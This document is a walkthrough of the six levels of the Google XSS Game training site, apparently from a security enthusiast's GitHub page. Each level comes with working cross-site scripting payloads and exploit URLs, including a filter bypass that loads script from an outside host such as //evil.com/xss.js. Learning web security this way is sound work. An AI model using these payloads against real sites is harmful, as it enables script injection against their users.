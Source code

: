 # Google XSS Game Walkthrough (Levels 1–6)

A complete write-up of all six levels of the [Google XSS Game](https://xss-game.appspot.com), showcasing how each level demonstrates a different form of Cross-Site Scripting (XSS).

---

## [1/6] Level 1: Hello, World of XSS

1.	Objective: Trigger an alert by injecting JavaScript into the query URL parameter.
 ![challenge1]( challenges/1.png)
2.	Code Behavior:\
  a.	The application reflects the query parameter into the page without sanitization:
  b.	![code1](codes/1.png)
4.	Vulnerability
  a.	Reflected Cross-Site Scripting (XSS):
  b.	User input is placed directly into the DOM using .innerHTML without sanitization or escaping. 
5.	Payload: <script>alert(1)</script>
6.	Exploit URL: https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>ipt>
![result1](result/1.png)
---

## [2/6] Level 2: Persistence Is Key

1.	Objective: Exploit stored XSS by injecting JavaScript into a message field that will be saved and later reflected into the page.
 ![challenge2]( challenges/2.png)
2.	Code Behavior
   a.	 ![code2](codes/2.png)
3.	Vulnerability
  a.	Stored XSS (DOM-based):
  b.	User input is unsafely embedded into the DOM using .innerHTML, allowing script execution.
4.	Payload: <img src=x onerror=alert(1)>
![result2](result/2.png)
---

## [3/6] Level 3: That Sinking Feeling...
1.	Objective: Trigger XSS by injecting into a JavaScript sink that uses user input to build and insert raw HTML.
 ![challenge3]( challenges/3.png)
2.	Code Behavior
   a.	 ![code3](codes/3.png)
   b.	The app reads input from location.hash and passes it to chooseTab().
  d.	Inside chooseTab(num), your input is used to dynamically build HTML
  e.	This creates a string of HTML with your input directly inserted into an <img> tag’s src attribute using .html() — a dangerous sink.
3.	Vulnerability
  a.	DOM-based reflected XSS
  b.	No input validation or sanitization
  c.	Direct insertion into HTML via .html() with attacker-controlled num
  d.	Allows attribute injection and event handler execution (e.g., onerror)
4.	Payload: #1'%20onerror='alert(1)
5.	Exploit URL: https://xss-game.appspot.com/level3/frame#1'%20onerror='alert(1)
![result3](result/3.png)
---

## [4/6] Level 4: Context Matters
1.	Objective: Trigger a DOM-based reflected XSS by exploiting how the application uses location.hash to dynamically build an HTML element using jQuery.
 ![challenge4]( challenges/4.png)
2.	Code Behavior
  a.	 ![code4](codes/4.1.png)
  b.	 ![code4](codes/4.2.png)
  c.	The app dynamically builds JavaScript using this pattern:
  d.	Your input from the location.search (the part after ?) is directly inserted into a JavaScript string, which is then executed via setTimeout().
3.	Vulnerability
  a.	DOM-based Reflected XSS in JavaScript string context
  b.	Unescaped user input is inserted into a JavaScript string and executed
  c.	Allows attackers to close the existing expression and inject arbitrary JavaScript
4.	Payload: 1');alert(1);//
5.	Exploit URL: https://xss-game.appspot.com/level4/frame?timer=1%27%29%3Balert%281%29%3B%2F%2F
![result4](result/4.png)
---

## [5/6] Level 5: Breaking Protocol
1.	Objective: Trigger JavaScript execution by injecting a javascript: URI into a link — without using <script> or onclick.
 ![challenge5]( challenges/5.png)
2.	Code Behavior: 
  a.	 ![code5](codes/5.1.png)
  b.	 ![code5](codes/5.2.png)
  c.	The application builds a confirmation page based on the next parameter and does this
  d.	Your next value is:
    i.	Embedded directly into the href attribute
    ii.	Later executed as a redirect URL
3.	Vulnerability
  a.	DOM-based XSS via href="..." and window.location
  b.	No validation or sanitization of the next parameter
  c.	Allows injection of javascript: protocol URIs, which are executable links
4.	Payload: javascript:alert(1)
5.	Exploit URL: http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
![result5](result/5.png)
---

## [6/6] Level 6: Follow the 🐇
1.	Objective: Trigger XSS by injecting an external script file, even though the app tries to block URLs that start with http:// or https://.
![challenge6]( challenge/6.png)
2.	Code Behavior:
  a.	 ![code6](code/6.png)
  b.	The app dynamically creates a <script> tag using input from the URL hash (#)
3.	Vulnerability
  a.	DOM-based XSS via external script injection
  b.	App blocks only http:// and https://, but not //domain.com
  c.	You can bypass the filter using a protocol-relative URL, like //evil.com/xss.js
4.	Payload: //cdn.jsdelivr.net/gh/naorlivne/poc/xss.js ( Where that file contains: alert(1); )
5.	Exploit URL: https://xss-game.appspot.com/level6/frame#//cdn.jsdelivr.net/gh/naorlivne/poc/xss.js
![result6](result/6.png)
---

## Summary Table

| Level | Vulnerability Type        | Input Source  | Sink               | Payload Example                |
| ----- | ------------------------- | ------------- | ------------------ | ------------------------------ |
| 1     | Reflected XSS             | URL Query     | `.innerHTML`       | `<script>alert(1)</script>`    |
| 2     | Stored DOM XSS            | Message field | `.innerHTML`       | `<img src=x onerror=alert(1)>` |
| 3     | DOM Reflected XSS         | URL Hash      | `.html()`          | `#1'%20onerror='alert(1)`      |
| 4     | DOM Reflected XSS (JS)    | URL Query     | `setTimeout(...)`  | `1');alert(1);//`              |
| 5     | Protocol-based XSS        | URL Query     | `href`, redirect   | `javascript:alert(1)`          |
| 6     | Script Injection via Hash | URL Hash      | `<script src=...>` | `#//evil.com/script.js`        |

---

Created by: **Praful Mardhekar**\
Cyber Security & Offensive Security Enthusiast

